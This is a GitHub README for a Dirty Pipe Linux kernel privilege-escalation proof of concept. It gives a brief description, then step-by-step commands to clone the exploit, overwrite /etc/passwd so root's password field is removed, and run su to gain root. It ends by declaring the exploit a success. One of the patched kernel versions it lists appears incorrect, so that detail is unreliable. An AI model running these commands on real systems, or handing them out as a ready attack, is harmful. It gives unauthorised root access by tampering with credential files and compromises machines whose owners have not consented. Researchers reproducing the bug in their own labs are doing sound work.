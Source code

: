 # Dirty-Pipe (PoC)

![image1](https://i.imgur.com/VDCLoTZ.png)

# What is it?

Dirty-Pipe is a vulnerability which allows us to overwrite files even if they have read-only permissions. This vulnerability affects kernel versions 5.8 onwards. This vulnerability has reportedly been patched for kernel versions 5.10.102, 5.12.25 and 5.16.11.

---

1. First of all, we must clone the repository where the exploit is located. 

```bash
git clone https://github.com/Nekoox/dirty-pipe.git
```

2. Once cloned, we enter the directory and execute the exploit with the following syntax.

```bash
cd dirty-pipe
```

````bash
./exploit /etc/passwd 1 "${$(cat /etc/passwd)/root:x/oot:}"
````

3. Once run, if the kernel version is vulnerable, it should work fine. We change to root.

```bash
su
```

![image](https://i.imgur.com/D2Qm4qh.png)

And as we can see we have successfully exploited Dirty-Pipe!
